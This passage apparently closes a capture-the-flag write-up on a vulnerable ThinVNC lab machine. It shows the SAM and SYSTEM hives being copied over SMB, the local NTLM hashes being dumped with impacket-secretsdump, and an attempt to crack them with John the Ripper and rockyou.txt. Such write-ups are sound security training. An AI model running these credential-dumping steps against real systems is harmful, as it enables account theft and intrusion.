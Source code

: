 Then we transfer `SAM` and `SYSTEM` files from our victim to our machine via SMB.
![](assets/sam.png)

Big success.

Now we use `impacket` again to extract the hashes and save it to a file:

```bash
└─$ impacket-secretsdump -sam SAM -system SYSTEM LOCAL > sam_dump; cat sam_dump                                                                                         1 ⨯
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x13dc8b2d3be447472e92938a1327cae9
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:35a619ab012f0a6d6daf24eccfb0b11f:::
Desperado:1004:aad3b435b51404eeaad3b435b51404ee:8fa2fdb26cd02c75c2c59bccad8dd9a0:::
[*] Cleaning up... 
```

Finally we remove unnecessary lines of the file and pass it through `JTR` with the help of `rockyou.txt` to see if we can crack Admin's pass:

```bash
└─$ john --w=/usr/share/wordlists/rockyou.txt hashes --format=NT
Using default input encoding: UTF-8
Loaded 3 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Remaining 2 password hashes with no different salts
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:01 DONE (2021-10-03 19:21) 0g/s 7355Kp/s 7355Kc/s 14711KC/s  _ 09..*7¡Vamos!
Session completed
```

Sadly we couldn't get any more passwords.

# [](header-1)Skills used.

*    Port enumeration with `Nmap`.
*    Manual service fingerprinting.
*    Google searching.
*    BurpSuite for exploiting LFI.
*    impacket for transfer files via SMB and extracting NTLM hashes.
*    JTR for cracking purposes.

# [](header-1)Final thoughts.

I didn't know about the existence of ThinVNC, now I know it could be vulnerable thanks to this machine :).

